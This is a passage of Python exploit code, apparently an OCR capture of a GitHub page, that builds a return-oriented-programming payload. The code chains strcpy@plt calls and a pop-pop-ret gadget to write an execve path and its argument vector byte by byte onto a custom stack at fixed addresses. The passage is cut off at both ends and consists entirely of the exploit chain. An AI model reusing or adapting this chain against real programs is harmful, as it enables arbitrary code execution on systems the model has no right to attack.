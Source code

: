 ```py
buf += conv(execve_path_dst)
buf += conv(execve_path_oct2)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct3)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct4)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct5)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct6)
#Below stack frame is for strcpy (to copy execve argv[0] (0x804ac60) to custom stack @ loc 0x804ac68)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct4)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct3)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct2)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct1)
#Below stack frame is for strcpy (to copy execve argv[1] (0x0) to custom stack @ loc 0x804ac6c)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
```